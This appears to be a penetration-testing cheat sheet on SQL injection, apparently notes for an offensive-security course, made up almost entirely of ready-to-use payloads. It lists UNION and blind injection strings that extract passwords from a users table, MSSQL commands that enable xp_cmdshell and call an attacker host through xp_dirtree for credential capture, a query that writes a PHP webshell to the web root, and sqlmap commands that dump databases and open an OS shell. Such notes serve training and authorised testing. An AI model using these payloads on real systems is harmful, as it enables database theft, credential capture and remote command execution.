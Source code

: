 # Error-based SQLi

- https://www.php.net/manual/en/reserved.variables.php
- https://tib3rius.com/sqli.html

```sql
offsec' OR 1=1 -- //

' or 1=1 in (select @@version) -- //

' OR 1=1 in (SELECT * FROM users) -- //

' or 1=1 in (SELECT password FROM users) -- //

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

# UNION-based Payloads

For **UNION** SQLi attacks to work, we first need to satisfy two conditions:

1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

```sql
' ORDER BY 1-- //
' ORDER BY 2-- //
' ORDER BY 3-- //
...

' or 1=1 in (SELECT password FROM users) -- //

%' UNION SELECT database(), user(), @@version, null, null -- //

0 UNION SELECT database(), null, null -- //

' UNION SELECT null, null, database(), user(), @@version  -- //

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' UNION SELECT null, username, password, description, null FROM users -- //

' UNION SELECT 'nurhodelta','password','c','d','f','a','a' -- &password=password&login=
```

# Blind SQL Injections

Although "boolean-based" might not seem like a blind SQLi variant, the output used to infer results comes from the web application, not the database itself.

```sql
http://$IP/blindsqli.php?user=offsec' AND 1=1 -- //

http://$IP/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

If time-based SQLi works and the database is MSSQL, you could try with the following payload:

```sql
EXEC xp_cmdshell 'ping $KALI_IP';--
  
'To be used in conjunction with Responder'
EXEC xp_dirtree \\$IP_MIO\\\test
EXEC xp_dirtree '\\$IP_MIO\\\test'; -- - 
```

To verify that the command is executed:

```bash
sudo tcpdump -i eth0    
```

# Manual Code Execution

```bash
impacket-mssqlclient Administrator:password@$IP -windows-auth
```

```sql
EXECUTE sp_configure 'show advanced options', 1;

RECONFIGURE;

EXECUTE sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';

' UNION SELECT "<?php sIst3m($_G3T['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

# Automating the Attack

## sqlmap

```bash
sqlmap -u http://$IP/blindsqli.php?user=1 -p user

sqlmap -u http://$IP/blindsqli.php?user=1 -p user --dump

sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"

sqlmap --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" -r request.txt --proxy http://127.0.0.1:8080 --dump
```